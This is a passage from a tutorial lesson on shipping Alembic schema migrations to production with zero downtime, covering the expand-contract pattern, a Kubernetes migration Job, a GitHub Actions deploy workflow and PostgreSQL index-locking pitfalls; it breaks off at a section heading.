





# Lesson 04: Deploying Migrations in Production

*The migration ordering problem, multi-instance coordination, why `alembic upgrade head` is a deploy step (not a lifespan step), the expand-contract pattern, and a real Kubernetes Job + GitHub Actions workflow that ships a column change with zero downtime — line by line.*

**You have all the pieces.**

Lesson 01 wired the pipeline. Lesson 02 taught you to read autogenerated files critically. Lesson 03 taught you to backfill safely. Today you put all of it inside a real deploy pipeline and ship a schema change to a production database with two versions of the app running at once — without anyone noticing. This is the lesson where the discipline of the previous three pays off. Without it, every migration is a 2am phone call. With it, every migration is a Tuesday afternoon. Take your time. The patterns in this lesson are the difference between a service that ships daily and a service that ships quarterly.


#alembic #deployment #production

## Learning Objectives

By the end of this lesson you will be able to:

1. **State the migration ordering problem** and explain why both orderings (schema-first and code-first) have failure modes during a deploy.
2. **Explain why `alembic upgrade head` is a deploy step**, not a startup step — three reasons: multi-instance races, migration failure becomes app failure, long migrations cannot run in a startup hook.
3. **Coordinate migrations across multiple app instances** using a deploy job or a pre-deploy hook — one process migrates, the rest start after.
4. **Apply the expand-contract pattern**: add nullable → deploy code that writes → backfill → deploy code that requires → tighten constraint. Five steps, zero downtime.
5. **Read a real deploy graph** and identify the safe ordering for a given schema change.
6. **Configure a Kubernetes `Job`** that runs `alembic upgrade head` before the new `Deployment` rolls out, and a **GitHub Actions workflow** that gates the deploy on the migration succeeding.

## Prerequisites

Before starting, you need:

- **The Lesson 01–03 pipeline.** You have a working `alembic/env.py`, the Lesson 02 review discipline, and the Lesson 03 backfill patterns.
- **The FastAPI lifespan lesson** — [[03-FastAPI-Core/Application-and-Lifespan]]. You need to know what a lifespan is, because this lesson repeatedly says "do not call `alembic upgrade head` from a lifespan."
- **Container basics** — [[16-Deployment-and-DevOps/Docker-Multi-Stage-Non-Root]]. You should know what a container image is, what `CMD` does, and what a Kubernetes `Deployment` and `Job` are at a high level.
- **About 100 minutes of focused time.** The code is small; the failure modes are subtle and the deploy graph is dense.

**The most common gap: rolling deploys.**

A "rolling deploy" is when you replace app instances one at a time — old version 1 is killed, new version 2 starts, traffic is shifted, repeat. During the deploy, *both* versions are running and serving traffic. Your migration strategy must be safe against both versions reading and writing the database. If you have never thought about this window of overlap, this lesson will reshape how you think about every migration.


## Think Like a Senior DBA

A junior engineer runs `alembic upgrade head` because the migration file is checked in and the workflow says to do so. A senior DBA reads the same migration as a *deployment phase* that has its own ordering constraints, its own failure modes, and its own rollback discipline — distinct from the app deploy that surrounds it. The mental shift is small in words and large in consequences: the migration is not a step in the app deploy; the migration is a phase that the app deploy depends on.

### Migration as a deployment phase, not a startup step

The Mistake 1 pattern — "run `alembic upgrade head` in the lifespan" — treats the migration as a thing the app does when it boots. The senior DBA's reading is the opposite: the migration is a phase that runs *before* the app boots, gated by the deploy pipeline, with its own success criteria (the database is at the target revision) and its own failure handling (the deploy halts, the app stays on the old version). The migration is to the app deploy what the build is to the test: a precondition that has to succeed before the next phase can start.

The reason the migration is its own phase — and not a startup step — is the rollback asymmetry. A failed app boot is recoverable by the orchestrator (Kubernetes restarts the pod); a failed migration is recoverable only by the deploy pipeline (the database is in a state that has to be rolled back explicitly, with its own `alembic downgrade` command). The migration phase has its own `activeDeadlineSeconds` (the Job's timeout), its own `backoffLimit` (the retry count), its own `lock_timeout` (the SQL-level lock budget), and its own rollback. The app boot has none of these — the orchestrator's restart is the only rollback. Conflating the two phases loses the migration's rollback discipline, which is why the lifespan-migration pattern is Mistake 1.

### Three questions on the sticky note

Before approving a migration PR, the senior DBA asks three questions, in this order:

1. **What is the schema state right now?** The answer is `alembic current` on the production database (or a fresh read replica). The migration PR assumes a `down_revision` that matches the current production head; if production is at `0004_backfill_project_slugs` and the PR's `down_revision` is `0003_add_slug_to_projects`, the PR is orphaned — it cannot apply without a merge revision. The senior DBA's first check is `alembic current` on a fresh production read replica, not the migration file's `down_revision` header. The header lies about the present; the database tells the truth.

2. **What schema state will each app version tolerate?** The answer is the expand-contract matrix from this lesson. The senior DBA reads the migration and asks: "if I apply this migration and then roll out the new code, does the old code (still running during the rolling deploy) crash?" If yes, the migration is unsafe as a single step — it has to be split into the expand-contract pattern. The matrix is the *contract* the migration has to satisfy against both versions of the code; the senior DBA walks every cell of the matrix before approving the migration.

3. **What is the rollback path, and where is the one-way door?** The answer is the `downgrade()` function for reversible migrations, and "no rollback" for one-way-door migrations (an irreversible data migration, a `DROP TABLE` on a table with data the app needs). The senior DBA marks one-way-door migrations in the migration's docstring (`"""one-way door: drops the deprecated_users table; no downgrade"""`) and requires a release cycle of confidence before the merge — the release cycle is the insurance that the one-way door is the right door to walk through.



The rest of this lesson deepens the deploy phase — the migrate Job, the expand-contract matrix, and the rollback discipline that the three questions enforce.

## The Problem

In development, the only thing running `alembic upgrade head` is you. In production, the things running are: a deploy pipeline, two app instances (old and new, during rollout), and possibly a multi-region database. The failure modes are real:

- **Rolling the new code before applying the schema** means the new code crashes on missing columns.
- **Rolling the schema before the new code can handle it** means the old code crashes on extra columns.
- **Running `upgrade head` from multiple app instances simultaneously** means races — two processes migrating the same database.

This lesson teaches the deploy ordering, the multi-instance coordination, and the backwards-compatible migration pattern that lets you ship a column change with no downtime.



Each transition is between two safe states. There is no window where the code requires the new column but the database does not have it, and no window where the database has a NOT NULL column the old code does not write to.

## The Code

This lesson's example is a full deploy pipeline that ships the `slug` change to the Boardly `projects` table via the expand-contract pattern. The deploy tool is GitHub Actions; the platform is a Kubernetes cluster with a `Job` for migrations.

### The migration chain

```
alembic/versions/
├── 0001_initial_schema.py # the base schema
├── 0002_rename_description_to_summary.py
├── 0003_add_slug_to_projects.py # M1: add slug nullable
├── 0004_backfill_project_slugs.py # B: backfill slug = slugify(title)
└── 0005_make_slug_not_null.py # M2: ALTER COLUMN slug NOT NULL
```

### M1: `0003_add_slug_to_projects.py` (from Lesson 03)

```python
def upgrade() -> None:
 op.add_column(
 "projects",
 sa.Column("slug", sa.String(length=120), nullable=True),
 )
 op.create_index(
 op.f("ix_projects_slug"),
 "projects",
 ["slug"],
 unique=True,
 )

def downgrade() -> None:
 op.drop_index(op.f("ix_projects_slug"), table_name="projects")
 op.drop_column("projects", "slug")
```

### B: `0004_backfill_project_slugs.py` (from Lesson 03, summarized)

```python
BATCH_SIZE = 500

def upgrade() -> None:
 bind = op.get_bind()
 while True:
 rows = bind.execute(
 sa.text("SELECT id, title FROM projects WHERE slug IS NULL ORDER BY id LIMIT :b"),
 {"b": BATCH_SIZE},
 ).fetchall()
 if not rows:
 break
 updates = [(_slugify(r.title), r.id) for r in rows]
 bind.execute(
 sa.text("UPDATE projects SET slug = :slug WHERE id = :id"),
 [{"slug": s, "id": i} for s, i in updates],
 )
 bind.commit()
```

### M2: `0005_make_slug_not_null.py`

```python
"""make slug not null

Revision ID: 0005_make_slug_not_null
Revises: 0004_backfill_project_slugs
"""
from __future__ import annotations

import sqlalchemy as sa
from alembic import op

revision = "0005_make_slug_not_null"
down_revision = "0004_backfill_project_slugs"
branch_labels = None
depends_on = None


def upgrade() -> None:
 # Safety check: refuse to apply NOT NULL if any row still has slug IS NULL.
 bind = op.get_bind()
 null_count = bind.execute(
 sa.text("SELECT COUNT(*) FROM projects WHERE slug IS NULL")
 ).scalar()
 if null_count > 0:
 raise RuntimeError(
 f"Refusing to make slug NOT NULL: {null_count} rows still have slug IS NULL. "
 "Run the backfill migration first."
 )
 op.alter_column(
 "projects",
 "slug",
 existing_type=sa.String(length=120),
 nullable=False,
 )


def downgrade() -> None:
 op.alter_column(
 "projects",
 "slug",
 existing_type=sa.String(length=120),
 nullable=True,
 )
```

### The application code changes

```python
# boardly/models/project.py — after D1 deploy
class Project(Base):
 __tablename__ = "projects"
 # ... existing columns ...
 slug: Mapped[str | None] = mapped_column(String(120), unique=True)

# boardly/services/project_service.py — after D1 deploy (writes both)
def create(self, data: ProjectCreate) -> Project:
 project = Project(
 title=data.title,
 summary=data.summary,
 slug=_slugify(data.title), # ← new code writes slug on insert
 owner_id=data.owner_id,
 )
 self._session.add(project)
 self._session.flush()
 return project

# boardly/services/project_service.py — after D2 deploy (reads slug)
def get_by_slug(self, slug: str) -> Project | None:
 return self._session.scalar(
 select(Project).where(Project.slug == slug)
 )

# boardly/routers/projects.py — after D2 deploy (uses slug in URL)
@router.get("/by-slug/{slug}")
async def get_by_slug(slug: str, db: Annotated[AsyncSession, Depends(get_db)]) -> ProjectRead:
 project = await project_service.get_by_slug(db, slug)
 if project is None:
 raise HTTPException(status_code=404, detail="project not found")
 return ProjectRead.model_validate(project)
```

### The Kubernetes Job: `k8s/migrate-job.yaml`

```yaml
apiVersion: batch/v1
kind: Job
metadata:
 name: boardly-migrate-{{ .Release.Revision }}
 annotations:
 "helm.sh/hook": pre-upgrade,pre-install
 "helm.sh/hook-weight": "-5"
 "helm.sh/hook-delete-policy": before-hook-creation
spec:
 backoffLimit: 2
 activeDeadlineSeconds: 600
 template:
 spec:
 restartPolicy: Never
 containers:
 - name: migrate
 image: ghcr.io/boardly/app:{{ .Values.image.tag }}
 command: ["uv", "run", "alembic", "upgrade", "head"]
 env:
 - name: BOARDLY_DATABASE_URL
 valueFrom:
 secretKeyRef:
 name: boardly-db
 key: url
 resources:
 requests: { cpu: "250m", memory: "256Mi" }
 limits: { cpu: "1", memory: "512Mi" }
```

### The GitHub Actions workflow: `.github/workflows/deploy.yml`

```yaml
name: deploy
on:
 push:
 branches: [main]

jobs:
 migrate:
 runs-on: ubuntu-latest
 environment: production
 steps:
 - uses: actions/checkout@v4
 - uses: astral-sh/setup-uv@v3
 - run: uv sync --frozen
 - name: Run migrations
 env:
 BOARDLY_DATABASE_URL: ${{ secrets.BOARDLY_DATABASE_URL }}
 run: uv run alembic upgrade head

 deploy:
 needs: migrate # ← the deploy does not start until the migration succeeds
 runs-on: ubuntu-latest
 environment: production
 steps:
 - uses: actions/checkout@v4
 - name: Build and push image
 run: |
 docker build -t ghcr.io/boardly/app:${{ github.sha }} .
 docker push ghcr.io/boardly/app:${{ github.sha }}
 - name: Roll out to Kubernetes
 run: |
 helm upgrade --install boardly ./charts/boardly \
 --set image.tag=${{ github.sha }} \
 --wait --timeout 5m
 - name: Verify
 run: curl -fsS https://boardly.example.com/healthz | grep ok
```

That is the entire pipeline. The rest of this lesson explains every block.

## Line-by-Line Deep Dive

This section is the heart of the lesson. Read it twice. Do not skim.

### The migration chain: three migrations and two deploys

**Warning — Debugging "which step am I on?" — `alembic current` is the source of truth, the migration file's `down_revision` is not**

During a multi-step expand-contract rollout, the question "did M1 ship but D1 not yet?" comes up constantly — the deploy pipeline says "migrate succeeded", but the app is still on old code, and you need to know whether to expect a nullable `slug` column or not. The migration file's `down_revision` header lies about the present (it tells you the *intended* parent, not the *actual* database state); `alembic current` on the production read replica tells the truth. The diagnostic command: `uv run alembic current` prints the single revision in the `alembic_version` table; `uv run alembic history --verbose` prints the full DAG with `Revises:` / `Revised by:` links so you can see where the current head sits relative to the chain. The CI guard that catches "the chain is broken": `uv run alembic heads` in the test job — if it returns more than one line, two migrations share a `down_revision` and the chain has diverged (see Failure 3 below). The production guard: a `pre-deploy` hook that runs `uv run alembic current` and compares the output to the expected revision baked into the image (`BOARDLY_EXPECTED_REVISION=0003_add_slug_to_projects`); a mismatch halts the deploy before the migrate Job runs, which is the cheapest moment to halt. See [[09-Alembic-Migrations/Alembic-Setup-and-Workflow]] for the `alembic current` / `alembic history` / `alembic heads` command surface.


The expand-contract pattern is **five steps**:

| Step | What | Migration / deploy | Safe against |
|---|---|---|---|
| M1 | Add `slug` as nullable | Migration 0003 | Old code (does not know about `slug`) and new code (knows about `slug` but treats it as optional) |
| D1 | Deploy code that writes `slug` on insert | App deploy | Old code still writing only the columns it knows; new code writing `slug` |
| B | Backfill `slug = slugify(title)` for existing rows | Migration 0004 | Both old and new code; old code unaffected |
| D2 | Deploy code that reads from `slug` | App deploy | Old code is gone; new code reads `slug` |
| M2 | Make `slug` NOT NULL | Migration 0005 | New code only; every row has `slug` set |

The transitions:

- **After M1:** the database has a nullable `slug` column. Old code is unaffected — it does not reference `slug`. New code (D1) is safe because it writes `slug` on insert and never reads it yet.
- **After D1:** new code writes `slug` on every new insert. Old code does not. New inserts have `slug`; old inserts do not. Both versions are running.
- **After B:** every existing row has `slug` set. New inserts (from new code) also have `slug` set. There are no `slug IS NULL` rows.
- **After D2:** only new code is running. It reads `slug`. It writes `slug` on insert.
- **After M2:** `slug` is NOT NULL. Every row has a value (because of B and D1). New code expects NOT NULL.



### Why both naive orderings fail

**Failure A — Schema-before-code, code requires new schema:**

1. Migration M2 runs (or M1+B+M2 all at once). The database now has `slug` as NOT NULL.
2. Old code (still running) does `INSERT INTO projects (title, ...) VALUES (...)` — without `slug`. The insert fails with `NotNullViolation`.

**Failure B — Code-before-schema, code requires new schema:**

1. New code is deployed. It does `SELECT slug FROM projects` or `INSERT INTO projects (..., slug) VALUES (...)`.
2. Migration has not run; `slug` does not exist. The new code crashes with `UndefinedColumn`.

The expand-contract pattern splits the schema change and the code change across multiple deploys so that every step is safe against both versions of the code.

Why does the schema change have to be split into five steps, when the underlying SQL change is just "add a column and a constraint"? Because production deploys are not atomic. The new code and the old code run side by side for the duration of a rolling deploy, and either one might still be serving requests when the database is in the new state (or the old state). If you make the column NOT NULL in a single migration, the old code (still running) inserts a row without setting `slug` and crashes. If you make the column NOT NULL only after the new code is fully deployed, you have a window where the new code's `INSERT INTO projects (..., slug) VALUES (...)` runs against a database that does not have the column yet — and crashes.

The five-step expand-contract pattern puts each state transition behind its own deploy boundary. M1 makes the column exist (nullable, so old code is fine). D1 ships code that writes to it. B backfills the existing rows. D2 ships code that reads from it. M2 finally tightens the constraint to NOT NULL. Each transition is independently safe — if a deploy fails between M1 and D1, the database has a nullable column nobody writes to, which is harmless; if it fails between D2 and M2, the column is populated and being read, but still nullable, which is also harmless. The cost is the operational overhead of two schema migrations and two code deploys for what is logically one change. The benefit is that no deploy boundary fails the running application.

### The five steps in detail

#### Step M1: Add the new column as nullable

```python
def upgrade() -> None:
 op.add_column(
 "projects",
 sa.Column("slug", sa.String(length=120), nullable=True),
 )
 op.create_index(
 op.f("ix_projects_slug"),
 "projects",
 ["slug"],
 unique=True,
 )
```

The new column is nullable. Old code does not know about it; inserts do not set it; the column has `NULL`. Nothing breaks.

**Warning — The unique index trap**

We create the unique index in M1, *before* the backfill. If two existing rows have the same `slugify(title)`, the backfill (B) will fail when it tries to set both to the same value. For a system where collisions are impossible (e.g. `slug = uuid`), this is fine. For a system where collisions are possible (titles can repeat), do one of:
- Create the index in M1 as non-unique, and add the unique constraint in a separate migration after B.
- Handle disambiguation in the backfill (append `-2`, `-3`, etc.) — covered in Lesson 03.


**What happens inside `ALTER TABLE projects ADD COLUMN slug VARCHAR(120) NULL` on PostgreSQL 17**

PostgreSQL's `ALTER TABLE ... ADD COLUMN ... NULL` (without a default) is a *catalog-only* operation — it inserts a row into `pg_attribute` (the system catalog that lists every column of every table) and leaves `pg_attrdef` (the column-defaults catalog) empty for a nullable column with no default. It does *not* rewrite the table's data pages; every existing row is unchanged on disk. The operation takes milliseconds regardless of table size — adding a column to a 1-billion-row table is the same cost as adding it to a 1-row table. The reason is that NULL is the implicit default: existing rows see the new column as NULL when they are read, without any data change. The `CREATE INDEX` call that follows (for the unique index on `slug`) is the slow part of M1 — `CREATE INDEX` without `CONCURRENTLY` takes an `AccessExclusiveLock` on the table and blocks writes for the duration of the index build. On a million-row table that is 5–10 seconds; on a billion-row table, minutes. The expand-contract pattern's M1 step should use `op.create_index(..., postgresql_concurrently=True)` (Alembic's `postgresql_concurrently` flag maps to `CREATE INDEX CONCURRENTLY`) which takes a `ShareUpdateExclusiveLock` instead — the lock does not block writes, but the index build is slower (it has to scan the table twice) and the operation cannot run inside a transaction, so Alembic has to issue it with `transaction_per_migration = False` or with a manual `COMMIT` before the `CREATE INDEX`. Contrast: `ALTER TABLE ... ADD COLUMN ... NOT NULL` *without* a default is a *blocking* operation — PostgreSQL has to verify every row has a value, which on a 1-billion-row table is a full table scan with an `AccessExclusiveLock`. That is the exact reason M2 (make NOT NULL) ships as the *last* step of expand-contract, after the backfill (B) has already set every row — the verification scan finds zero violations and completes in seconds, not minutes.


**Danger — `CREATE INDEX` without `CONCURRENTLY` is a write-lock DoS on the request path**

The lesson's M1 code uses `op.create_index(op.f("ix_projects_slug"), ..., unique=True)` — which on PostgreSQL translates to `CREATE UNIQUE INDEX` without `CONCURRENTLY`. That statement takes an `AccessExclusiveLock` on the `projects` table for the duration of the index build: every `INSERT`/`UPDATE`/`DELETE` on `projects` blocks until the index is built. On a 10-million-row table with active writes (the canonical "the projects table on a SaaS that has been running for a year"), the index build takes 30-60 seconds of *blocked writes* — which manifests as a write-throughput collapse on the request path, a cascade of `pool_timeout` errors in the app, and an alert that says "5xx rate spiked during the deploy". An attacker who can read your deploy schedule (most teams deploy on a predictable cadence) can time a write-heavy flood to coincide with the index build and amplify the lock into a multi-minute outage. The fix is `op.create_index(..., postgresql_concurrently=True)` (Alembic maps this to `CREATE INDEX CONCURRENTLY`), which takes a `ShareUpdateExclusiveLock` and does not block writes — at the cost of taking longer (two table scans) and not running inside a transaction (Alembic has to issue it with a manual `COMMIT` before the `CREATE INDEX`, or `transaction_per_migration = False`). The production rule: every `op.create_index` in a migration that touches a table on the request path must use `postgresql_concurrently=True` or be explicitly justified in the PR description; a CI lint that fails on `op.create_index` without `postgresql_concurrently=True` on tables in a `boardly.tables.hot` allowlist is the gate. See [[06-SQL-Fundamentals/Indexes-and-Query-Planning]] for why the index is worth the build cost in the first place, and [[08-PostgreSQL/EXPLAIN-ANALYZE-and-Query-Plans]] for measuring the build time before you ship it.


#### Step D1: Deploy code that writes to the new column

```python
def create(self, data: ProjectCreate) -> Project:
 project = Project(
 title=data.title,
 summary=data.summary,
 slug=_slugify(data.title), # ← new code writes slug on insert
 owner_id=data.owner_id,
 )
 self._session.add(project)
 self._session.flush()
 return project
```

The code writes `slug` on insert. Reads still use `title` and `summary`. The old code, still running on instances that have not been replaced yet, writes only the columns it knows — `slug` is NULL for those rows. The new code is forward-compatible.

#### Step B: Backfill existing rows

```python
def upgrade() -> None:
 bind = op.get_bind()
 while True:
 rows = bind.execute(
 sa.text("SELECT id, title FROM projects WHERE slug IS NULL ORDER BY id LIMIT :b"),
 {"b": BATCH_SIZE},
 ).fetchall()
 if not rows:
 break
 updates = [(_slugify(r.title), r.id) for r in rows]
 bind.execute(
 sa.text("UPDATE projects SET slug = :slug WHERE id = :id"),
 [{"slug": s, "id": i} for s, i in updates],
 )
 bind.commit()
```

After this migration, every row has `slug` set. The column is still nullable; the code in D1 writes it on insert, so new rows continue to have it set. See Lesson 03 for the full backfill.

#### Step D2: Deploy code that reads from the new column

```python
def get_by_slug(self, db: AsyncSession, slug: str) -> Project | None:
 return await db.scalar(select(Project).where(Project.slug == slug))

@router.get("/by-slug/{slug}")
async def get_by_slug(slug: str, db: Annotated[AsyncSession, Depends(get_db)]) -> ProjectRead:
 project = await project_service.get_by_slug(db, slug)
 if project is None:
 raise HTTPException(status_code=404, detail="project not found")
 return ProjectRead.model_validate(project)
```

Old code that reads `title` is unaffected — both columns have values. New code reads `slug`. This is the moment you transition the source of truth.

#### Step M2: Make the new column NOT NULL

```python
def upgrade() -> None:
 bind = op.get_bind()
 null_count = bind.execute(
 sa.text("SELECT COUNT(*) FROM projects WHERE slug IS NULL")
 ).scalar()
 if null_count > 0:
 raise RuntimeError(
 f"Refusing to make slug NOT NULL: {null_count} rows still have slug IS NULL."
 )
 op.alter_column(
 "projects",
 "slug",
 existing_type=sa.String(length=120),
 nullable=False,
 )
```

**What it does:** Verifies that every row has a `slug`, then alters the column to NOT NULL.

**Why the safety check?** If for some reason the backfill (B) did not set every row's `slug` — perhaps the backfill was rolled out with a bug, or new rows were inserted between D1 and M2 by a path that did not set `slug` — then `ALTER COLUMN slug SET NOT NULL` will fail. The safety check catches this *before* the alter, with a clear error message. Without the check, you would get a cryptic `NotNullViolation` from PostgreSQL.

**Why is the check `COUNT(*)` not `EXISTS`?** `COUNT(*)` has to scan the whole table to count; `EXISTS` short-circuits at the first match. For this safety check we want the count (so the error message is informative) and we accept the scan cost — M2 is a one-time migration. In the hot path of the app, always use `EXISTS` over `COUNT(*)`.

**Student asks: what if I roll out D1 but a bug means new code is not writing `slug`? Will M2 fail?**

Yes — and that is the point. The safety check catches the bug. The error message tells you how many rows are missing `slug`, which points you at the bug. You fix D1, redeploy, wait for the backfill to catch up (or just run B again, which is idempotent), then re-run M2. This is why the safety check matters: it makes a subtle data bug into a loud migration failure.


### The reverse ordering for breaking changes

For some changes you cannot avoid a moment of incompatibility. Example: dropping a column the code requires. The backwards-compatible pattern does not apply — you have to deploy the code that does not require the column *first*, then drop the column in a separate migration. The order is:

1. D1: deploy code that does not read the column (still safe against the old schema).
2. M1: drop the column.
3. (No D2; the deploy is done.)

The pattern is the same: never have a moment where the code requires a schema element that does not exist.

**Student asks: what about a rename? I cannot "add a column, backfill, drop the old one" because the new column is the *renamed* old column — the data has to come with it.**

A rename is the canonical "I cannot expand-contract this one" case. The compatible form is: treat the rename as an expand-contract where the "expand" is *adding* the new column alongside the old, the "contract" is *dropping* the old column after a quiet period. Steps: M1 adds `new_col` (nullable, same type as `old_col`); B backfills `new_col = old_col` in batches (or, on a small table, in one statement — see [[Data-Migrations-Safely]]); a trigger or application dual-write keeps `new_col` in sync with `old_col` while the deploy rolls out; D1 deploys code that reads `new_col` and writes `new_col` but still tolerates `old_col` existing; a quiet period to ensure no in-flight requests are still reading `old_col`; M2 drops `old_col`. What you cannot do safely: `op.alter_column(..., new_column_name="new_col")` as a single rename, with code that expects the new name deployed in the same step. Autogenerate will propose exactly that on a rename — Lesson 02 ([[Autogenerate-and-Its-Limits]]) is the canonical "why you cannot trust autogenerate for renames" lesson.


### Why `alembic upgrade head` is not an app-startup step

**The `activeDeadlineSeconds` vs `readinessProbe` timeout budget**

